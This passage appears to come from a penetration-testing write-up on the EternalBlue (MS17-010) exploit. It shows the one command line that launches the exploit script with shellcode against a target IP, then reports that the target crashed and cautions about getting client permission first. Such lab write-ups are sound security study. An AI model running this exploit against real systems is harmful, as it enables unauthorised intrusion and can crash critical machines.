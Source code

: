 #### Fire up the exploit

```bash
python eternalblue_exploit7.py <TARGET-IP> <PATH/TO/SHELLCODE/sc_all.bin> <Number of Groom Connections (optional)>
```

#### Outcome

Our target crashed, hence why we shouldn't just run any exploit in a real world environment without asking the client for permission to know if the target is a critical machine or infrastructure.

![kali](/assets/img/kali-crashed-ms-17.png)

![windows](/assets/img/crashed-windows-ms-17.png)

